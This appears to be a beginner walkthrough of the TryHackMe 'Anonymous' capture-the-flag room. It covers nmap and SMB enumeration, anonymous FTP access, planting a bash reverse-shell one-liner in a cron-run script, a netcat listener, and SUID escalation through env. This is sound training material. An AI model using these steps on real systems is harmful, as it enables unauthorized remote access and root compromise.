# [Anonymous TryHackMe Writeup/Walkthrough][1]
Not the hacking group

Try to get the two flags!  Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners. Acquiring both flags will require some basic knowledge of Linux and privilege escalation methods.

#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -Pn <IP>`



Looks like we have four ports open: `21, 22, 139, 445`.

As SAMBA port is open. Run the SAMBA enumeration scripts. Add command `--script=smb-enum-shares.nse,smb-enum-users.nse`


> `pics` share is open and we have a read access to it.

Let's connect to PICS shares and see what we have there! CMD -> `smbclinet //<IP>/pics`


> When asked for password, press enter.

There are two files available. Let's download these files to our machine and check the content.



These are just images, but what if it has data hidden! I tried `steghide` to extract the content but it requires *passphrase*.

Let's try to connect via `ftp` and check if we can get the *passphrase*. Use credentials `anonymous:anonymous` to login.





I found three files here. Let's get this files in our machine and check the content.



- to_do.txt -> Haha, Yeah you should!
- remove.sh -> nothing much here.
- clean.sh -> INTERESTING!


> Seems like file is running periodically as a cronjob. Oh, now the *remove.sh's* content make sense.

We can add a bash one linear in this file and upload it back to the target machine. CMD -> `bash -i >& /dev/tcp/<IP>/4444 0>&1`



Start a listener using *netcat*. CMD -> `nc -lvnp 4444`.

Upload the file back to the target machine using `put`.



Wait for a while and you will receive a shell.


> Now that we have the access, let's stabilize the shell.

#### Shell Stable CMDs

```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256-color
```
Press `Ctrl + Z`

```
stty raw --echo
fg
```

As we have the access, we can get the *user flag*.



For basic enumeration, you can download `linPeas` and run it. It will do all your work. Or you can do it manually.

The user is in `lxd` group, that can be use to exploit. [Reference][3]

Check for SUIDs using `find / -perm -type f -exec ls -la {} 2>/dev/null \; | grep "/usr/bin"`



Search these one by one on [GTFOBins][4].

I got shell with `env`. CMD -> `/usr/bin/env /bin/sh -p`



You know what to do next :stuck_out_tongue_winking_eye:



[1]: https://tryhackme.com/room/anonymous
[2]: https://www.hackhunt.in/search/label/Nmap
[3]: https://www.exploit-db.com/exploits/46978
[4]: https://gtfobins.github.io/
